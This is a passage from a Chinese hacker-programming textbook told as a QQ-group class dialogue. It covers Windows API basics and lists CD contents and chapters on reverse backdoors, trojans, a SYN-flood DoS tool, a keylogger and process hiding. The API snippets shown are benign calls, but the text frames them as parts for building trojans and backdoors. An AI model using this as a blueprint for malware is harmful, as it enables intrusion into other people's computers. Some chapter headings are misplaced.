# HACK 编程实训精讲

## Q版黑客


## 人物介绍

本书沿用《Q版黑客》系列丛书的人物对话教学方式，以QQ群为背景进行讲解、讨论。除了作者本人外，书中还设置了五位男主角，他们分别是：

- 多多喵：有点 C 语言基础的家伙，话语不多。
- 乖狐：嘴很甜，每次提问“老师”都很愿意回答，即使是很弱智的问题。
- 冰眼：无突出特征，属于沉默的大多数。
- 马蜂窝：悟性较差，但很勤奋。
- 我是良民：比较自负，有点儿小聪明。

## 阅读指南

经常在论坛上遇到有人虚心地请教如何成为编程高手，其实方法只有两个：多读和多写。多读就是要多参考别人的代码，吸收其中巧妙的思路和解决办法；多写就是自己多练习编码。慢慢地，你就会一步步走向成功。因此，本书内容以“代码”为主，以“说”为辅的方式为大家介绍黑客编程各方面的内容。

本书定位于有点编程基础但不知该如何编写黑客软件的读者。通过本书各实例的分析，可以让读者快速掌握编写一个黑客软件所必须的知识，以及黑客软件的开发步骤。另外，本书中的代码可作为平时的技术参考资料，它们都是最基本的，可以作为模块嵌入到新的软件中。

如果读者能每天仔细研究一个实例，你就能很快具备编写黑客软件的基本能力。然而，仅仅靠阅读和分析别人的代码而不加入自己的创新是不能写出好黑软的。所以，希望读者在阅读过程中，勇于发挥自己的想像，问问自己：难道就只有这种实现办法吗？有没有更好的呢？这种方法还能用于其它方面吗？等等。最好能和几个志同道合的朋友一起研究，大家互补进行，以方便进行学习，这样往往会事半功倍！

由于本人知识有限，书中难免会出现错误，敬请广大读者批评指正！



## 光盘目录



### 网络相关工具集

### 第一章

- **Winsock 代码**：winsock 的服务器端和客户端的代码，演示客户端和服务器端如何进行通信。
- **多线程例子**：一个简单的多线程程序例子。

### 第二章

- **关机代码.cpp**：在程序中关机的代码。
- **注册表启动.cpp**：演示如何让程序从注册表进行自启动。
- **NT 服务框架.cpp**：服务器程序的框架代码，把自己的程序代码结合这个框架就可以把自己的程序以系统服务的形式启动。
- **进程创建.cpp**：演示如何创建一个进程。
- **下载.cpp**：urldownload 代码。
- **Win9x 下隐藏进程.cpp**：展示如何在 Win9x 系统下把程序注册成服务从而隐藏进程。
- **反向连接后门.cpp**：一个反向连接后门的简单实现。
- **获取ip.cpp**：获取本机的 IP 地址代码。
- **查杀进程.cpp**：里面包含三个函数——SetPrivilege()、pslist()、killps()，分别是提升权限、列举进程和杀进程的函数。

### 第三章

- **扫描器代码**：包含三个扫描器代码——最简单的单线程扫描器、多线程扫描器和高级 syn 扫描器。
- **一个简单嗅探软件的实现**：一个利用原始套接字进行嗅探的 sniffer。
- **多线程DOS攻击程序**：一个多线程的攻击程序，利用多线程发送 syn 数据包进行 DOS。
- **http代理源码**：一个简单的 http 代理服务器源代码。
- **ICMP后门**：ICMP 后门（icmpdoor）的源代码。
- **信息刺探工具**：利用 SNMP 进行信息刺探的代码，可以获取意外的信息（前提是主机开放 SNMP 服务）。
- **防火墙**：一个简单的包过滤防火墙实现。

### 脱壳工具集

- **MC1.0免费版**：针对 C/S 都是 ADSL 动态 IP 用户的，一个很简单的小后门。
- **byshell v0.64**：实现远进程无 DLL、无硬盘文件、无启动项的后门程序。
- **TinyFtpServer**：一个简单的 ftp 服务器代码。
- **vnc-3.3.7-winsrc**：VNC 源码。
- **ZXshell 2.0**：一款精致的木马。
- **MyQQ**：一个 TCP 和 UDP 聊天、传收文件的程序。

## CONTENTS

## 第一章：网络和编程的基本知识

- 1.1 熟悉 Windows API 编程 7
- 1.2 Windows 网络协议 14
- 1.3 Winsock 编程基础——关于服务器和客户端编程 19
- 1.4 了解多线程编程 28
  - 1.4.1 多线程基础知识 28
  - 1.4.2 如何创建一个线程 29
  - 1.4.3 多线程编程中应注意的问题 31
- 1.5 了解 DLL 文件 34

## 第二章：黑客编程精粹 38

- 2.1 Windows 关机和重启代码 39
  - 2.1.1 在 Windows 98 实现“注销/重启/关机”功能的代码 39
  - 2.1.2 在 Windows 2000 实现“注销/重启/关机”功能的代码 39
- 2.2 程序如何通过注册表实现自启动 40
  - 2.2.1 最重要的两个文件夹和八个注册键 40
  - 2.2.2 通过编程实现程序自启动 41
- 2.3 如何编写一个 NT 服务 43
  - 2.3.1 关于 NT 服务 43
  - 2.3.2 如何编写服务 44
- 2.4 进程的创建 49
- 2.5 如何让程序下载东西 52
- 2.6 在 Win9x 下如何隐藏进程 53
- 2.7 如何实现反向连接后门 54
- 2.8 如何获得本机 IP 地址 57
- 2.9 如何查杀进程 58
- 2.10 如何获得系统详细信息 60
- 2.11 如何通过建立管道来取得系统用户 62
- 2.12 如何实现文件关联 65
- 2.13 如何发送和接收文件 67
- 2.14 如何捕获当前桌面 71

## CONTENTS

## 第三章：黑客编程实例 76

- 3.1 端口扫描器 77
  - 3.1.1 编写最简单的端口扫描器 77
  - 3.1.2 多线程 connect 扫描器 79
  - 3.1.3 打造极速 syn 扫描器 87
- 3.2 一个简单嗅探软件的实现 100
- 3.3 多线程DoS程序 106
  - 3.3.1 DoS原理 106
  - 3.3.2 对SYN Flood攻击的防御 108
- 3.4 http代理程序设计 113
- 3.5 ICMP通道后门原理及实现 119
- 3.6 编写snmp信息刺探工具 129
  - 3.6.1 前置知识 129
  - 3.6.2 SNMP的工作原理 131
  - 3.6.3 SNMP信息刺探工具源码 132
- 3.7 一个简单包过滤防火墙的实现 137
- 3.8 编写一个键盘记录器 140
- 3.9 线程插入技术详解 148


出品：非安全  
作者：谷夕  
联系电话：(010) 81215606  
查询电邮：wym_hope@sina.com  
定价：16元（光盘+说明书）  
版号：ISBN 7-900380-79-5/J·100  
出版：新疆电子出版社  
版权申明：版权所有 盗版必究

## 第一章 网络和编程的基本知识

- 1.1 熟悉 Windows API 编程 7
- 1.2 Windows 网络协议 14
- 1.3 Winsock 编程基础——关于服务器和客户端编程 19
- 1.4 了解多线程编程 28
  - 1.4.1 多线程基础知识 28
  - 1.4.2 如何创建一个线程 29
  - 1.4.3 多线程编程中应注意的问题 31
- 1.5 了解 DLL 文件 34

### 1.1 熟悉 Windows API 编程

一朋友新站开业，为提升网站的人气值，特叫我这位故友为其新成员开课，讲解黑客编程方面的知识，还承诺每月给我工资。这样两全其美的事（一方面为朋友的网站做宣传，另一方面自己又多了点零花钱），我立即应允了下来。

于是立马建立了一个QQ教学群，把新成员一一加了进来。面对众多稀奇古怪的QQ昵称，一时不知该如何开口。没办法，只好硬着头皮开门见山地发话！“很高兴能在这里为大家介绍自己编程的一些经验，虽说不上是很好的经验，但对大家都会有一点帮助的。”……

发出此话之后，群里没有一点儿反应，于是又改用问话的方式。“大家想学习 Windows 下的黑客编程，必须要有一定的编程基础。这里谁有 C 语言基础？”“我有！”“我也有！”“还有我！”……

一时间大家都踊跃发言，自己的心情也顿时轻松了起来。“呵呵，看来大家都有点基础！我以后讲起来就不用那么费劲了。大家对 C 语言还有些什么问题吗？”

“我刚学完 C 语言，但觉得有点失望：这就是 C 语言？靠它就能编出软件？无法想像一个个黑软是怎样编写出来的。我照着教科书做了很多例子，但这些实例除了计算还是计算，和当今的网络、Windows 等根本扯不上关系！”一位叫多多喵的菜鸟抱怨说。

“这位同学不用失望和怀疑。教科书上的实例是帮助我们熟悉 C 语言的基本用法，你掌握了它的语法，以后才能很好地运用！当然，要想编写黑软，还要掌握很多东西。最基本的要求是：我们要有 C 语言基础，然后才能去学习 API（我将会在以后的课程里为大家讲解 API）。当你学会了如何利用 API 来写程序时，那么离编写黑软的目标就不远了。”

“谷大哥，我们学习 C 语言都是用 TC 来写程序的，那么，编写黑软又要用什么工具呢？”乖狐同学嘴还蛮甜的。

“VC++。具体地说，我是教大家利用 SDK 来编写程序。”

“什么是 SDK？”

“SDK 即 Software Develope Kit（软件开发工具包），它包含了进行 Windows 软件开发的文档和 API 函数的输入库、头文件（因为 API 在动态链接库中，这些动态链接库是系统的组成部分，因此不用再提供，而输入库和头文件则必须提供，这样才能在你的程序中使用 API 函数）。早期 SDK 是一个单独发放的包，现在，在 Visual C++ 和其他一些开发环境中已经包含了它。如果你已经安装了 VC++，那么就可开始编写 Windows 程序了。随着 Windows 系统的发展，SDK 的内容越来越多，我们只需抓住最基本的方面，至于其他专门的主题，就可根据自己的兴趣和技术方向进一步学习了。”

“我下载过很多黑客软件，有些是有界面的，我们可用鼠标来操作；有些是没有界面的，需要输入命令。这两种程序有什么分别吗？”一位叫冰眼的朋友问道。

“呵呵！分别就是一个有界面，一个没有界面！不过，通常编写有界面的程序我们都要用到 MFC（微软基础库类），用 MFC 写出来的程序体积稍大，执行效率不及我们利用 SDK 写的程序（要输入命令的程序通常就是用 SDK 开发的）。更重要的是，高手们都喜欢敲命令哦！”

“对！电影里的黑客都是敲命令去攻击、入侵别人的，帅呆了！”冰眼说。

“还有一点，控制台程序（即没有界面的程序）通常编写起来都较容易，所以适合初学者学习。因此，我以后给大家介绍的黑软都是控制台程序。大家有了基础后，就可以去编写一些有界面的程序来方便自己（毕竟点一下鼠标比敲几个单词要省不少功哦）。今天我就给大家介绍一下 Windows API 编程吧！”

“当我们需要开发一个黑客工具时，必然会用到很多操作 Windows 文件或控制 Windows 的函数。这些函数就是 API。”

“API 函数我听说过，但个人感觉它的语法好像比 C 语言要复杂！”多多喵说道。

“什么是 API 啊？”一位叫马蜂窝的朋友问道。

没办法，看来我还是详细点说清楚吧！

“API 就是 Application Programming Interface 的缩写。简单地说，API 就是一系列已经定义在 Windows 内部的函数，是应用程序和 Windows 之间通信的一个桥梁，应用程序通过调用这些 API 函数来请求操作系统完成一系列任务。在 Windows 中，窗口、图标、菜单、对话框和文件操作等都是由 API 来管理和维护的。”

马蜂窝心急地说：“Windows 操作系统这么复杂，那些 API 函数肯定多得很，我们怎么记住这么多函数啊！我英语单词没记几个呢！郁闷！”

“就是啊！大哥，有什么更好的办法吗？”一位叫我是良民的同学也附和着。

“其实，大家并不需要把每个函数都记在心里，你们只需知道有这样一个函数就可以了。必要时，大家可以上微软的 MSDN 网站查找这些函数的用法，也可购买 MSDN 的光盘，这样就可随时随地去查了。”

“大哥，继续说吧！大家不要乱发文字啊！我好 COPY 做笔记！”乖狐一副很认真的口气。

“好，我再说说相关的东西吧！Win32 API 也就是 Microsoft Windows 32 位平台的应用程序编程接口。可以这么说，API 函数是构筑整个 Windows 框架的基石，在它下面是 Windows 的操作系统核心，而它上面则是所有华丽的 Windows 应用程序。如图 1-1。”



“现在，出现了可视化编程工具，这些优秀的可视化编程环境操作简单、界面友好（如 VB、VC++、DELPHI 等），在这些工具中提供了大量的类库和各种控件，它们替代了 API 的神秘功能。事实上，这些类库和控件都是构架在 Win32 API 函数基础之上的，是封装了的 API 函数的集合。它们把常用的 API 函数组合在一起，构成一个控件或类库，并赋予其方便的使用方法，所以极大地加速了 Windows 应用程序开发的过程。有了这些控件和类库，我们便可把主要精力放在程序整体功能的设计上，而不必过于关注技术细节。”

“实际上，如果我们要开发出更灵活、更实用、更具效率的应用程序，必然要涉及到直接使用 API 函数，虽然类库和控件使应用程序的开发简单得多，但它们只提供 Windows 的一般功能，对于较复杂和特殊的功能来说，使用类库和控件是非常难以实现的，这时就需要采用 API 函数来实现。”

“谷大哥，我学过 C 语言，C 语言的函数通常都包含在一些头文件中，那么你所说的这些 API 函数又是包含在哪里的呢？”我是良民问道。

看来这小子还有点知识，孺子可教！“Windows 广泛使用动态链接（DLL 文件），关于 DLL，我迟些会作详细讲解。Windows 的 API 就放在动态链接库中，以供程序运行时调用。在 Windows 98 中，有 32 位的 gdi32.dll、user32.dll、kernel32.dll 和 16 位的 gdi.exe、user.exe、krnl386.exe，API 就存在这些动态链接库中。Windows 操作系统包括三个内核基本元件：GDI、KERNEL 和 USER。Windows API 就是依靠这三个核心组件提供了 Windows 的大部分函数。大家可通过图 1-2 来进一步了解。”

| Win32 API | 说明 |
|---|---|
| User32.dll | 负责窗口的管理，包括消息、菜单、光标、计时和其它；还有控制窗口显示 |
| Gdi32.dll | 提供图形设备接口，管理用户界面和图形绘制，包括绘图、设备描述表和字体等 |
| Kernel32.dll | 处理存储器底层功能、任务和资源管理器等 Windows 核心服务 |

图 1-2

“还有啊，谷大哥，你学习编程比我们早，肯定积累了不少的 API 函数，能介绍一些我们以后会用到的函数吗？”乖狐同学每次讲话我都爱听 :)

“好的，我硬盘里有我积累下来的常用 API 函数，现在就贴出来给大家看看。大家最好把这些函数保存好，以后就可作为参考了。下面列举一些常用的 API 函数，相信对大家编写黑客程序（尤其是木马）有很大的帮助。”

#### 1. 窗口信息

MS（微软）为我们提供了打开特定桌面和枚举桌面窗口的函数。

```c
hDesk=OpenDesktop(lpszDesktop,0,FALSE,DESKTOP_ENUMERATE);
// 打开我们默认的 Default 桌面；
GetWindowText(hWnd,szWindowText,dwMaxCount);
// 取得编辑框中的文字
GetWindowThreadProcessId(hWnd,&dwPID);
```

#### 2. 磁盘信息

获得系统所有磁盘的信息，包括软盘、硬盘、光盘等。

```c
GetLogicalDriveStrings(dwBufferLength,lpBuffer);
// 获得逻辑设备的信息；
GetVolumeInformation(lpRootPathName,lpVolumeNameBuffer,
dwVolumeNameSize,&dwVolumeSerialNumber,
&dwMaximumComponentLength,&dwFileSystemFlags,
lpFileSystemNameBuffer,dwFileSystemNameSize);
// 获得磁盘卷信息，包括卷名称和格式类型；
GetDiskFreeSpaceEx(lpRootPathName,&FreeBytesAvailable,
&TotalNumberOfBytes,&TotalNumberOfFreeBytes);
// 探测磁盘的空间使用情况；
```

#### 3. 环境变量

从注册表中获得环境块的信息。

```c
RegOpenKeyEx(HKEY_LOCAL_MACHINE,RegKey,0,KEY_QUERY_VALUE,&hKey);
// 打开注册表的键；
RegEnumValue(hKey,dwIndex,EnvironVariable,
&dwVariableLength,NULL,NULL,NULL,NULL);
// 查询我们需要的信息值；
GetEnvironmentVariable(EnvironVariable,EnvironString,1024);
// 获得环境变量的字符串信息；
```

#### 4. 事件记录信息

```c
OpenEventLog(NULL,szLog);
// 打开事件日志记录；
GetOldestEventLogRecord(hEvent,&dwThisRecord);
// 获得最新的日志信息，以便继续查找；
ReadEventLog(hEvent,EVENTLOG_FORWARDS_READ | EVENTLOG_SEQUENTIAL_READ,0,pEventLogRecord,
1024*32,&dwRead,&dwNeeded);
// 读取日志信息；
LookupAccountSid(NULL,pSid,szName,&dwName,szDomain,&dwDomain,&SNU);
// 获取账户的 SID，以便获得账户的用户名；
GetNumberOfEventLogRecords(hEvent,&dwTotal);
// 获得事件日志的总数；
CloseEventLog(hEvent);
// 不要忘记关闭事件句柄；
```

#### 5. 网络共享

```c
NetShareEnum(NULL,dwLevel,(PBYTE *)&pBuf,MAX_PREFERRED_LENGTH,&entriesread,&totalentries,
&resume);
// 列举所有的共享目录及相关信息；
NetApiBufferFree(pBuf);
// 释放缓冲区；
NetShareDel(NULL,(char *)lpShareNameW,0);
// 删除网络共享目录；
```

#### 6. 网络适配器信息

我们要探测 NIC 的信息和网络流量。

```c
GetAdaptersInfo(&AdapterInfo, &OutBufLen);
// 获取适配器信息；
```

#### 7. 系统性能

获取系统的存储器使用情况。

```c
GetPerformanceInfo(&PerfInfo, sizeof(PERFORMANCE_INFORMATION));
// 获取系统性能信息；
```

## 8. 进程 / 线程 / 模块信息

在此，我们使用工具帮助函数（ToolHelp32）和系统函数。

```c
OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken);
// 打开进程的令牌，提升权限；
AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
// 将进程的权限提升到支持调试（Debug）；
CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
// 创建进程的快照；
Process32First(hProcessSnap, &ProcessEntry32);
Process32Next(hProcessSnap, &ProcessEntry32);
// 枚举所有进程；
OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, ProcessEntry32.th32ProcessID);
// 打开特定进程，以查询进程相关信息；
GetProcessTimes(hProcess, &CreateTime, &ExitTime, &KernelTime, &UserTime);
// 获取进程的时间信息；
GetProcessMemoryInfo(hProcess, &PMCounter, sizeof(PMCounter));
// 获取进程的存储区信息；
GetPriorityClass(hProcess);
// 获取进程的优先权；
GetProcessIoCounters(hProcess, &IoCounters);
// 获取进程的 IO 使用情况；
CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, dwProcessID);
// 创建模块快照；
Module32First(hModuleSnap, &ModuleEntry32);
Module32Next(hModuleSnap, &ModuleEntry32);
// 枚举进程模块信息；
CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
// 创建线程快照；
Thread32First(hThreadSnap, &ThreadEntry32);
Thread32Next(hThreadSnap, &ThreadEntry32);
// 枚举线程信息；
OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadEntry32.th32ThreadID);
// 打开线程，须自己获得此函数地址；
TerminateProcess(hProcess, 0);
// 终止进程；
SuspendThread(hThread);
// 挂起线程；
ResumeThread(hThread);
// 激活线程；
```

#### 9. 关机

```c
AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL);
// 调整进程令牌，使其支持关机；
ExitWindowsEx(EWX_LOGOFF, 0);
// 注销系统；
LockWorkStation();
// 锁定系统；
InitiateSystemShutdown(NULL, szMessage, dwTimeout, FALSE, bSig);
// 支持倒计时和消息显示的关机／重启；
SetSystemPowerState(bSig, FALSE);
// 系统休眠；
```

#### 10. 用户信息

```c
NetUserEnum(NULL, dwLevel, FILTER_NORMAL_ACCOUNT, (LPBYTE*)&pBuf,
            dwPrefMaxLen, &dwEntriesRead, &dwTotalEntries, &dwResumeHandle);
// 枚举系统用户信息；
NetUserDel(NULL, lpUserNameW);
// 删除指定用户；
```

#### 11. 系统版本信息

```c
GetVersionEx((LPOSVERSIONINFO)&osviex); // 获取操作系统的版本信息；
```

也可通过注册表（HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion）获取相关信息：

```c
GetTickCount();
// 获取开机时间；
GetComputerName(szInfo, &dwInfo);
// 获取计算机名称；
GetUserName(szInfo, &dwInfo);
// 获取计算机用户名；
GetWindowsDirectory(szInfo, MAX_PATH + 1);
// 获取 Windows 目录；
GetSystemDirectory(szInfo, MAX_PATH + 1);
// 获取系统目录；
```

## 第二章 网络和编程的基本知识

“哇！好多函数啊！如果用这些函数像堆积木一样，我就可堆出个木马后门什么的了！”冰眼兴奋地说。

“Windows 真正包含的 API 函数远不只这么多，如果大家想编写自己的程序但又在上面的函数中找不到适合的函数，可以上 MSDN 查找，相信大家一定能从中学到很多东西（不过前提是英文水平要比较高哦）。另外，在我们编写木马或后门程序时，文件操作是木马或后门的一个重要功能，尤其是木马程序。出色的木马程序其文件管理功能是非常强大的。大家知道通常的文件操作有哪些吗？”

“文件的复制、删除、移动等等。我们小菜只知道用鼠标点击右键来操作文件，不知道木马是如何实现这些功能的。”马蜂窝答道。

“嗯！其实木马或后门的文件操作，只是利用了一系列的文件操作函数。下面我们来看看具体的函数和应用。”

“前面已经介绍过文件的创建 CreateFile（）函数和写文件的 WriteFile（）函数，现在就介绍一下其它的函数。删除文件利用 DeleteFile（）函数，函数原型如下：”

```c
BOOL DeleteFile(LPCTSTR lpFileName)
```

“常用到的还有文件的复制函数 CopyFile（），这个函数比较重要，很多时候都会用到。例如木马的自拷贝，把自己复制到系统目录或指定目录。CopyFile（）函数的原型如下：”

```c
BOOL CopyFile(
    LPCTSTR lpExistingFileName, // 存在的源文件
    LPCTSTR lpNewFileName,      // 要复制到的目标文件
    BOOL bFailIfExists
)
```

“第三个参数如果设置为 TRUE，表示不覆盖已经存在的文件，设置为 FALSE，则覆盖已经存在的文件。移动文件利用 MoveFile（）函数，函数原型如下：”

```c
BOOL MoveFile(
    LPCTSTR lpExistingFileName, // 源文件
    LPCTSTR lpNewFileName       // 目标文件
)
```

“MoveFile（）函数可移动一个存在的文件或子目录（包括其中的内容）。当移动目录时，若目标目录已经存在，则返回 FALSE。创建目录利用 CreateDirectory（）函数，函数原型如下：”

```c
BOOL CreateDirectory(
    LPCTSTR lpPathName,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes
)
```

“CreateDirectory（）函数创建一个新的目录。例如下面的代码在 C 盘上创建一个 hack 目录：”

```c
char szDirPath[] = "c:\\hack";
CreateDirectory(szDirPath, NULL);
```

“与 CreateDirectory() 函数对应的是删除目录的函数 RemoveDirectory()。RemoveDirectory() 函数只有一个参数，就是被删除的目录路径。删除成功，返回 TRUE，否则返回 FALSE。”

“哦！原来是这样啊！”我是良民感叹道。

“好了，今天的课就上到这里。大家回去好好尝试一下上面的函数！当你将它们用熟后，以后编写木马时，只要想到某项功能就能立刻运用相关的 API 函数！”

“OK！谢谢谷大哥！”蓝狐满意地回道。

### 1.2 Windows 网络协议

“今天，我给大家介绍一下 Windows 网络协议。首先问大家一个问题：网络上的计算机之间是如何交换信息的呢？”

“我知道！利用电话线！”马蜂窝一马当先。

@#¥%……

“楼上的！这个地球人都知道了！我们还是让谷大哥为我们介绍介绍吧！”看来非得我出马不行了。

“其实，就像我们说话用某种语言一样，网络上的各台计算机之间也有一种共同语言，这就是网络协议，不同的计算机之间必须使用相同的网络协议才能进行通信。”

> **小知识：什么是网络协议**  
> 网络协议是网络上所有设备（网络服务器、计算机及交换机、路由器、防火墙等）之间通信规则的集合，它定义了通信时信息必须采用的格式和这些格式的意义。大多数网络都采用分层的体系结构，每一层都建立在它的下层之上，向它的上一层提供一定的服务，而把如何实现这一服务的细节对上层加以屏蔽。一台设备上的第 n 层与另一台设备上的第 n 层进行通信的规则就是第 n 层协议。在网络的各层中存在着许多协议，接收方和发送方同层的协议必须一致，否则，一方将无法识别另一方发出的信息。网络协议使网络上各种设备能相互交换信息。



“我们还是不明白啊……”冰眼说。

“是啊！大哥，再讲清楚点！”马蜂窝也附和着。

“我在这里也很难说清楚，建议大家参考《TCP/IP 协议详解》这本经典著作。”

“好的！我明天马上去买！”我话刚说完，多多喵就冒出这么一句，看来是位富家公子啊！

“如果我没记错的话，这本书分三卷，价格分别是 30 多元、70 多元、30 多元。”

“!@#¥%^&”我是良民发出了一连串字符。

“大家以后有机会去借就行了。下面我介绍一些常用的协议。”

## 第一章 网络和编程的基本知识

#### 小知识：常见的协议

常见的协议有：TCP/IP 协议、IPX/SPX 协议、NetBEUI 协议等。在局域网中，用得较多的是 IPX/SPX（打 CS 时就是用这个来搜索主机）。用户如果访问 Internet，则必须在网络协议中添加 TCP/IP 协议。

> “TCP/IP 协议我听得多了，但就是不知道有什么用？”马蜂窝问道。

